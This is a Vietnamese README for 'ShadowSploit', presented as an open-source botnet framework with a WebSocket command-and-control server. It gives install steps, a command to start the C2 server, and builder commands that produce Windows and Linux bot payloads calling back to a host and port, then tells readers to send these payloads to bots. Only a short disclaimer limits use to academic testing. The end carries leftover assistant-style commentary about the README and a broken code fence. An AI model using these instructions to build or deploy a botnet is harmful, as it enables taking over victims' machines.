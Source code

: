 # ShadowSploit - **Botnet Framework**

## 🚀 **Giới thiệu**

**ShadowSploit** là một framework **botnet** mã nguồn mở được phát triển cho **Kali Linux** và **Windows**. Framework này cho phép bạn xây dựng và quản lý botnet dễ dàng qua **WebSocket C2 Server**. 

### 💡 **Lợi ích**:
- Quản lý botnet qua **giao thức WebSocket**.
- Dễ dàng triển khai và tùy chỉnh.
- Hỗ trợ cả **Windows** và **Linux**.

## 🔧 **Cài đặt**

Để sử dụng **ShadowSploit**, bạn cần cài đặt **Python 3.6 trở lên** và các thư viện cần thiết.

**Bước 1**: Cài đặt các thư viện yêu cầu:
```bash
pip install -r requirements.txt 
```
Bước 2: Clone repository về máy của bạn:
```bash
git clone https://github.com/yourusername/ShadowSploit.git
cd ShadowSploit
```
Bước 3: Tạo môi trường ảo (tuỳ chọn):
```bash
python3 -m venv venv
source venv/bin/activate   # Trên Linux / macOS
venv\Scripts\activate      # Trên Windows
```
Bước 4: Cài đặt các phụ thuộc:
```bash
pip install -r requirements.txt
```
🖥️ Cách sử dụng
Chạy WebSocket Server
Sau khi cài đặt xong, bạn cần chạy WebSocket C2 Server để có thể điều khiển botnet:
```bash
python3 server.py
```
Server này sẽ lắng nghe kết nối từ các bot.

Tạo Payload cho Windows hoặc Linux
Để tạo payload cho các bot, bạn có thể sử dụng builder.py. Chạy lệnh sau để tạo payload tương ứng với hệ điều hành:

Payload cho Windows:
```bash
python3 builder.py --payload windows --host 192.168.1.100 --port 8080 --output botnet.exe
```
Payload cho Linux:
```bash
python3 builder.py --payload linux --host 192.168.1.100 --port 8080 --output botnet.elf
```
Kết nối Bot với Server
Sau khi tạo payload và gửi cho các bot, chúng sẽ tự động kết nối với WebSocket Server bạn đã khởi động ở bước trước. Bạn có thể bắt đầu điều khiển chúng thông qua server này.

🔐 Lưu ý
⚠️ ShadowSploit chỉ nên được sử dụng cho các mục đích học thuật và kiểm tra bảo mật.

Không sử dụng cho các hoạt động tấn công bất hợp pháp hoặc xâm nhập vào hệ thống không được phép.

🧑‍💻 Liên hệ
Nếu bạn gặp khó khăn khi sử dụng ShadowSploit, vui lòng mở Issue trên GitHub hoặc gửi email cho chúng tôi tại: youremail@example.com.

Tham gia cộng đồng: GitHub Repository
```bash

### **Các phần trong README.md**:

- **Giới thiệu về framework**: Cung cấp thông tin cơ bản về **ShadowSploit** và mục đích sử dụng.
- **Hướng dẫn cài đặt**: Các bước cụ thể để cài đặt framework, bao gồm việc cài đặt môi trường và các thư viện cần thiết.
- **Cách sử dụng**: Hướng dẫn cụ thể về việc chạy server và tạo payload cho các hệ điều hành khác nhau.
- **Lưu ý**: Nhấn mạnh việc sử dụng framework này chỉ cho mục đích học thuật và bảo mật.
- **Liên hệ**: Đưa thông tin liên lạc nếu người dùng gặp khó khăn.

Với cách tiếp cận này, README.md của bạn sẽ hoàn thiện và dễ hiểu cho người dùng khi tham gia sử dụng hoặc đóng góp vào project.

```
